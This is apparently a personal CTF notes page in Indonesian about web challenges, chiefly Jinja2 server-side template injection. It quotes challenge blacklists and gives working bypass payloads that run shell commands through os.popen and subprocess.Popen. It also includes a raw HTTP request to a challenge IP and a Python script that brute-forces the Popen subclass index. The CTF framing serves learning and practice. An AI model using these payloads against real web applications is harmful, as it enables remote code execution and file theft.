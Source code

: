 ```yaml
---
title: "My CTF - Notes"
description: ""
pubDate: 2025-07-25 10:00
slug: "ctf-notes"
---
```


- [Web](#web)
    1. [SSTI](#ssti)

Ini adalah catetan saya yang dibuat secara personal berdasarkan pengalaman saya yang telah mengerjakan ctf selama ini

# Web

## SSTI

ada chall ini, diberikan program berikut:

```py
def security_filter(user_input):
 blacklist = ["%", "\\", "/", "\"", "'", "`", "|", " ", "[", "]", "+","init", "subprocess", "globlas", "config", "update", "mro", "subclasses",
"class", "base", "builtins", "cycler", "joiner", "namespace", "lipsum"]

 for word in blacklist:
    if word in user_input:
        return False
 return True
 ```

 payload untuk bypass : `{{url_for.__globals__.os.popen(request.headers.tel).read()}}`

 req header:
```
POST /search HTTP/1.1
Host: 103.160.212.3:1339
Content-Length: 70
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://103.160.212.3:1339
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Tel: cat /flag.txt   -> ini variabel baru
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/a
png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://103.160.212.3:1339/

Accept-Encoding: gzip, deflate, br
Connection: keep-alive

query={{url_for.__globals__.os.popen(request.headers.tel).read()}}
```

---

The regex expression is `/^[0–9a-z ]+$/i`

- Only numbers and lowercase
- Key insensitive

![alt text](image.png)

![alt text](image-1.png)

---

The Regex filter bypass is:

`/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/`


```



{system('whoami')

}


```

---

```py
blacklists =['os', 'sys', 'import','subprocess', 'shutil', 'tempfile', 'pickle', 'marshal',
            'write', 'eval', 'exec', 'system', 'popen', 'open',
            'call', 'check_output', 'check_call', 'startfile', 'remove', 'unlink',
            'rmdir', 'remove', 'rename', 'replace', 'chdir', 'chmod', 'chown',
            'chroot', 'link', 'lchown', 'listdir', 'lstat', 'mkdir', 'makedirs',
            'mkfifo', 'mknod', 'open', 'openpty', 'remove', 'removedirs',
            'rename', 'renames', 'rmdir', 'stat', 'symlink', 'unlink', 'walk', 'write',
            'popen', 'builtins', 'global'] 
```

pertama cari dulu class2 nya pake ini:
```
{{ dict.__base__.__subclasses__()[50:100] }}
```

intinya kita harus dapetin class seperti `Popopen` buat bisa ngelakuin command, nah kita harus cari di index mana, jadi bisa pake script ini buat nyari biar ga cape nge brute:
```py
import requests
from bs4 import BeautifulSoup

# Konfigurasi
url = "http://localhost:8888/card"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fungsi untuk kirim payload dan ambil hasil render
def send_payload(payload):
    try:
        res = requests.post(url, data=f"name={payload}", headers=headers, timeout=5)
        soup = BeautifulSoup(res.text, "html.parser")
        return soup.get_text()
    except Exception as e:
        return f"[!] Error: {e}"

# 1. Cari index dari subprocess.Popen
def find_popen_index(start=0, end=500):
    print("[*] Searching for subprocess.Popen...")
    for i in range(start, end):
        payload = f"{{{{ dict.__base__.__subclasses__()[{i}] }}}}"
        result = send_payload(payload)
        if "subprocess.Popen" in result:
            print(f"[+] Found subprocess.Popen at index: {i}")
            return i
    print("[!] subprocess.Popen not found")
    return None

# 2. Eksekusi perintah via subprocess.Popen
def execute_command(popen_index, command="cat /flag.txt"):
    payload = (
        f"{{{{ dict.__base__.__subclasses__()[{popen_index}]("
        f"'{command}', shell=True, stdout=-1).communicate() }}}}"
    )
    print(f"[*] Executing: {command}")
    result = send_payload(payload)
    print("\n[+] Command Output:\n", result.strip())

# Main
if __name__ == "__main__":
    popen_index = find_popen_index()
    if popen_index is not None:
        execute_command(popen_index)
```

misal kita dapet class `subprocess.Popen` di index `371` kita tinggal masukin command:

```
{{ dict.__base__.__subclasses__()[371]("cat /flag.txt", shell=True, stdout=-1).communicate() }}
```

tapi untuk chall ini, letak flag di letakkan di luar main dir `/app`, sedangkan flag di taruh di `/`, sehingga kita bisa modifikasi command nya jadi:

```
{{ dict.__base__.__subclasses__()[371]("for f in /?*.txt; do cat $f; done", shell=True, stdout=-1).communicate() }}
```

